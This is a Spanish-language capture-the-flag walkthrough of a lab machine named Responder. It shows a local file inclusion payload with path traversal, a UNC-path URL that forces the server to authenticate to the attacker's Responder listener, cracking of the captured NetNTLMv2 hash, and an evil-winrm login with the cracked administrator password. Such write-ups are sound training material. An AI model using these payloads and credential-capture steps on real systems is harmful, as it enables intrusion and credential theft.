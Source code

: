 Maquina: Responder

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 165411](https://github.com/user-attachments/assets/86c84ec7-1ff7-49b2-b893-ecd3e77dd4c7)

Iniciamos la máquina y verificamos la conexión

ping 10.129.37.91 -c 1

![Screenshot 2024-11-10 165550](https://github.com/user-attachments/assets/19006c47-bf01-4c13-ae4b-787610a7809c)

realizamos un escaneo de puertos y servicios

sudo nmap -sVC -T4 -PN -p- 10.129.37.91

el puerto 80 está abierto y está sirviendo HTTP con Apache httpd 2.4.52 (Win64) junto con OpenSSL/1.1.1m y 
PHP/8.1.1., el puerto 5985 está abierto y está sirviendo HTTP con Microsoft HTTPAPI httpd 2.0 (utilizado por SSDP/UPnP), el puerto 7680 está abierto, el servicio asociado pando-pub

![Screenshot 2024-11-10 170149](https://github.com/user-attachments/assets/f93fb876-05d3-4d1d-88ea-43548cc47156)

añadimos la ip a /etc/hosts

echo 10.129.37.91 unika.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 170537](https://github.com/user-attachments/assets/af12c8f1-9568-4694-b3ad-471bd8b054dc)

![Screenshot 2024-11-10 170651](https://github.com/user-attachments/assets/c75936e3-4ee7-41d8-85d8-7be1874c2b26)

En este código hay un parámetro de página. 
Al cambiar el idioma a otro, obtenemos un parámetro page=french.html en la URL.

![Screenshot 2024-11-10 171031](https://github.com/user-attachments/assets/121d8f7a-0325-4c83-8ff0-e5e87423bbbe)

Este es un caso de inclusión local de archivos

Ahora cambiamos el valor del parámetro page=../../../../../../../../../

![Screenshot 2024-11-10 171643](https://github.com/user-attachments/assets/91fb09f9-09aa-4a7a-b890-e1b181d1754f)

Ahora leemos el archivo /etc/hosts de nuestro objetivo usando LFI.

http://unika.htb/index.php?page=../../../../../../../../../../windows/system32/drivers/etc/hosts

Capturamos el hash NetNTLMv2 del administrador utilizando Responder. Para entender mejor el proceso, expliquemos brevemente lo que haremos.

Aprovechando la vulnerabilidad de LFI (Local File Inclusion), pediremos al servidor que intente conectarse a un recurso SMB en nuestra máquina local. 
Al hacer esto, el servidor Windows tratará de autenticarse con nuestra máquina utilizando el protocolo NTLM (New Technology Lan Manager), 
que es un sistema de autenticación desafío-respuesta desarrollado por Microsoft.

Durante este proceso, NTLM generará una cadena específicamente formateada que incluye tanto el desafío como la respuesta. 
Esta cadena es conocida como NetNTLMv2. Aunque comúnmente se le llama "hash NetNTLMv2", técnicamente no es un hash tradicional, pero se ataca de manera similar.

Con Responder, capturaremos esta cadena NetNTLMv2. 
Luego intentaremos descifrarla utilizando John The Ripper para ver qué información podemos obtener y cómo podemos usarla.

iniciamos Responder, configurándolo para que escuche en la interfaz de red tun0, 
que es la interfaz por la que estamos conectados al servidor remoto.

sudo responder -I tun0

![Screenshot 2024-11-10 172931](https://github.com/user-attachments/assets/e554f06c-b8e2-4361-8ad5-f101807327ea)

volvemos al navegador y cargamos la siguiente URL:
http://unika.htb/?page=//10.10.14.37/file

copiamos el hash que nos da el repeater, creamos un file y le pegamos el hash.

![Screenshot 2024-11-10 173709](https://github.com/user-attachments/assets/f75b2dff-3c28-44fe-88c6-62162e77253f)

![Screenshot 2024-11-10 173539](https://github.com/user-attachments/assets/7ae7ecde-4912-420e-87b5-b79977086b55)

utilizamos el diccionario rockyou.txt para intentar descifrar el hash con John the Ripper

![Screenshot 2024-11-10 174643](https://github.com/user-attachments/assets/17fea937-4904-470f-a582-8f0c80187c45)

siguiente paso atacamos el servicio que esta corriendo en el puerto 5985 WinRm con las credenciales obtenidas

evil-winrm -i 10.129.37.91 -u administrator -p badminton

![Screenshot 2024-11-10 174858](https://github.com/user-attachments/assets/c999c5c0-6e4b-46ae-ae0e-356c2d0132b8)

vamos hasta el usuario mike y conseguimos el flag

![Screenshot 2024-11-10 174956](https://github.com/user-attachments/assets/6a37cbfb-c9ed-41a8-83b5-140cd5c73eb8)

![Screenshot 2024-11-10 175035](https://github.com/user-attachments/assets/8d422348-821a-4264-a516-cc6a02118005)

